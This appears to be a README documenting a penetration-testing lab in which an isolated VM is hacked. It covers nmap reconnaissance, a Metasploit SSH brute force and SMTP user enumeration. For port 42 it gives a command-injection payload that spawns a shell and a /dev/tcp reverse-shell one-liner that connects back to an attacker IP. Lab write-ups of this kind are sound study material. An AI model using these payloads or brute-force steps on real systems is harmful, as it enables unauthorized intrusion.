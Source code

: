 # Aim
Hack a remote machine without having any idea about it 

# Methodology

0) Determine the ip address of the remote machine : using sniffing with wireshark on the suitable network (host-only network in my case)

1) Scan all the ports of the remote machine : to penetrate a system, there should be an open port otherwise It will be difficult to penetrate.

* nmap -sC -sV ip_address (in my case 192.168.123.6)


2) We determine all the informations about the target machine: uses linux OS 

smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.7-Ubuntu)
|   Computer name: lambda-config-1
|   NetBIOS computer name: LAMBDA-CONFIG-1\x00
|   Domain name: \x00
|   FQDN: lambda-config-1
|_  System time: 2021-05-14T12:56:16+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)


3) Determine all the vulnerabilities existing : 

* port 7 : running echo service: not vulnerable 

* port 13 : running time service : not vulnerable

* port 22 : running ssh service : a bit vulnerable

Exploit used : used _msfconsole_ and runned the exploit _auxiliary/scanner/ssh/ssh_login# which is a brute force exploit. It tries all the combinaisons of _usr.txt_ and _password.txt_ in the folder 

* port 42 : running a vulnerable service : Enter a username to see the users last login time: 

Exploit used :	1)"; /bin/sh ; " to run a shell on the tcp connection
	        2) "; /bin/bash -i > /dev/tcp/192.168.123.3/9999  0<&1 ;" to run a reverse shell on the attacker machine on port 9999, port on which the attacker must be listening
	        
* port 25 : running smtp service of version _Postfix smtpd_ : vulnerable

Exploit used : used _msfconsole_ and runned the exploit _auxiliary/scanner /smtp/smtp_enum_ to enumerate the users of the target machine 
and found all the users on the target machine. The users are recorded in _target_users.txt_ file

* port 139 : running netbios-ssn : not vulnerable

but exploit tried : used _msfconsole_ and runned the exploit _exploit/multi/samba/usermap_script_ but It is not vulnerable

# ENJOY
	           
